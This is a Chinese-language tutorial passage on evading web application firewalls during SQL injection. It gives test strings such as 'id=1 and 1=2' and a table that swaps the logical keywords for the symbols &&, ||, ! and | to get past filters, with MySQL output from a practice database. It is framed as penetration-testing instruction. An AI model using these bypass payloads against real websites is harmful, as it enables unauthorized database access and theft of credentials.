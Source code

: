 # SQL 注入绕过

SQL 注入绕过技术已经是一个老生常谈的内容了，防注入可以使用某些云 waf加速乐等安全产品，这些产品会自带 waf 属性拦截和抵御 SQL 注入，也有一些产品会在服务器里安装软件，例如 iis 安全狗、d 盾、还有就是在程序里对输入参数进行过滤和拦截 例如 360webscan 脚本等只要参数传入的时候就会进行检测，检测到有危害语句就会拦截。SQL 注入绕过的技术也有许多。但是在日渐成熟的 waf 产品面前，因为 waf 产品的规则越来越完善，所以防御就会越来越高，安全系统也跟着提高，对渗透测试而言，测试的难度就越来越高了。接下来将会详细介绍针对 waf 的拦截注入的绕过方法。

# or and xor not绕过★ 

目前主流的 waf 都会对 id=1 and 1=2、id=1 or 1=2、id=0 or 1=2 id=0 xor 1=1 limit 1 、id=1 xor 1=2

对这些常见的 SQL 注入检测语句进行拦截。像 and 这些还有字符代替字符如下

| 指令 | 字符 |
| ---- | ---- |
| and  | &&   |
| or   | &#124;&#124; |
| not  | !    |
| xor  | &#124;   |

需要注意并不是所有数据库的SQL语句都支持上述字符。

```sql
mysql> select * from users where id=1 and 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 && 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id not in (2,3);
+------+----------------------+-----------+
| id   | username             | password  |
+------+----------------------+-----------+
|    1 | Dumb                 | Dumb      |
|    4 | secure               | crappy    |
|    5 | stupid               | stupidity |
|    6 | superman             | genious   |
|    7 | batman               | mob!le    |
|    8 | admin                | admin     |
|    9 | admin1               | admin1    |
|   10 | admin2               | admin2    |
|   11 | admin3               | admin3    |
|   12 | dhakkan              | dumbo     |
|   14 | admin4               | admin4    |
+------+----------------------+-----------+
11 rows in set (0.00 sec)

mysql> select * from users where id in (2,3);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  2 | Angelina | I-kill-you |
```